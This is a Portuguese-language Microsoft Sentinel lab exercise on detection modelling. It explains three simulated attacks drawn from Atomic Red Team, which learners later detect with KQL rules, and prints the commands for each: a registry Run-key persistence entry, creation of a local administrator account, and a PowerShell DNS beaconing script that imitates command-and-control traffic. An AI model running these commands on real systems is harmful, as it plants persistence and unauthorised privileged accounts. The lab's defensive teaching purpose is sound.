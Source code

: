 ```yaml
---
lab:
  title: 'Exercício 5: entender a modelagem de detecção'
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Roteiro de aprendizagem 7, Laboratório 1, Exercício 5: entender a modelagem de detecção

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### Tarefa 1: entender os ataques

>**Importante: você não executará nenhuma ação neste exercício.**  Estas instruções são apenas uma explicação dos ataques que você realizará no próximo exercício. Leia atentamente esta página.

Os padrões de ataque são baseados em um projeto de código aberto: https://github.com/redcanaryco/atomic-red-team


#### Ataque 1: persistência com adição de chave do Registro

Os invasores adicionarão um programa na chave do Registro Executar. Isso alcança a persistência, fazendo com que o programa seja executado toda vez que o usuário fizer logon.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Ataque 2: adição de usuário e elevação de privilégio

Os invasores adicionarão novos usuários e elevarão o novo usuário ao grupo Administradores. Isso permite que o invasor faça logon com uma conta diferente que seja privilegiada.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Ataque 3: DNS/C2 

O invasor enviará um grande volume de consultas de DNS a um servidor de comando e controle (C2). A intenção é disparar a detecção baseada em limites no número de consultas de DNS de um único sistema de origem ou para um único domínio de destino.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### Tarefa 2: entender a modelagem de detecção

O ciclo de configuração de detecção de ataque usado neste laboratório representa todas as fontes de dados, mesmo que você esteja focado apenas em duas fontes de dados específicas.

Para compilar uma detecção, você primeiro começa com a criação de uma instrução KQL. Como você atacará um host, terá dados representativos para começar a construir a instrução KQL.


Depois de ter a instrução KQL, vai criar a regra analítica.

Depois que a regra dispara e cria os alertas e incidentes, você investigará para decidir se está fornecendo campos que ajudam os analistas de operações de segurança em sua investigação.

Em seguida, você fará outras alterações na regra de análise.

>**Observação:** alguns alertas serão disparados em um período de tempo menor apenas para nossa finalidade de laboratório.

## Prossiga para o Exercício 6
